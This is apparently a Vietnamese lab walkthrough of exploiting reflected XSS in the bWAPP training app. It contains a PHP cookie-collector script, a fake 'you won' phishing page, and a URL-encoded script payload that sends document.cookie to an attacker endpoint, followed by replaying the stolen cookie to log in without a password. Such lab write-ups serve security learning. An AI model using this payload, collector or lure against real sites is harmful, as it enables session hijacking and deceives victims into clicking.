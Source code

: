 Bước 1: Xác định vị trí có thể dính XSS
Thử nhập họ tên và nhận được kết quả

![image](https://github.com/user-attachments/assets/34804180-fbab-4493-b02e-6a7296ad0bb2)

Kết quả trả về hiển thị ‘ Welcome Tran Van Thiep’. Từ đó có thể xác định có
khả năng bị dính lỗi XSS

Do là hoạt động theo phương thức GET nên có thể thấy dữ liệu được truyền đi 
kèm theo URL.

![image](https://github.com/user-attachments/assets/b2a93875-390a-4994-8316-65c6e540112f)

Bước 2: Kiểm tra lỗi XSS

Sau khi đã xác định được vị trí có khả năng mắc lỗi XSS, tiến hành kiểm tra 
bằng cách thử truyền vào 1 đoạn mã java script **<script>alert("XSS")</script>** để
thực hiện tạo 1 popup thông báo để kiểm tra xem site có bị lỗi XSS hay không?

![image](https://github.com/user-attachments/assets/8867814d-0762-40c0-a74a-6ec7c2a0430c)

Vậy là đã chắc chắn web vulnerable với XSS, ta sẽ tiến hành khai thác bằng kỹ thuật đánh cắp cookie:

Code php crawl cookie:

```php
<?php
    if(isset($_GET['cookie']))
    {
        $cookie = $_GET['cookie'];
        // Mở file cookie.txt, tham số a nghĩa là file này mở chỉ để write chứ không scan hay read
        $f=fopen('cookie.txt','a');
        // Ta write địa chỉ trang web mà ở trang đó bị ta chèn script.
        fwrite($f,$_SERVER['HTTP_REFERER']);
        // Ghi giá trị cookie
        fwrite($f,". Cookie la: ".$cookie." \n");
        // Đóng file lại
        fclose($f);
    }
?>
```

* Tạo một url phishing
```html
<html>
    <head>
        <title>Lottery</title>
    </head>
    <body>
	    <h1 align="center">CONGRATULATIONS!!!</h1>
	    <h1 align="center">YOU WON!!!</h1>
	    Click this <a href="http://localhost/bwapp/xss_get.php?firstname=%3Cscript%3Ewindow.open%28%22http%3A%2F%2Flocalhost%2Fget.php%3Fcookie%3D%22%2Bdocument.cookie%29%3C%2Fscript%3E&lastname=A&form=submit">link</a> to see your prize
    </body>
</html>
```

Tiếp theo, lừa người dùng click vào link phishing

![image](https://github.com/user-attachments/assets/b11b655f-febd-44f3-8afe-0df393e30ed0)

Khi mục tiêu ấn click vào link sẽ bị chuyển hướng tới web đã bị đệm javascript, sau đó sẽ bị crawl cookie về cookie.txt tại máy attacker:

![image](https://github.com/user-attachments/assets/7dd1b4e2-8b66-4523-847b-f93117a7cf0f)

Copy cookie và vào trình duyệt paste cái cookie này vào

![image](https://github.com/user-attachments/assets/1f7734b6-bfe2-4068-b3da-bf2efafca3c7)

Kết quả sau khi add cookie ta đã login mà không cần mật khẩu

![image](https://github.com/user-attachments/assets/79a836ee-6dcc-4d39-8b35-ae3dc4afbf0c)

Kết thúc bài.
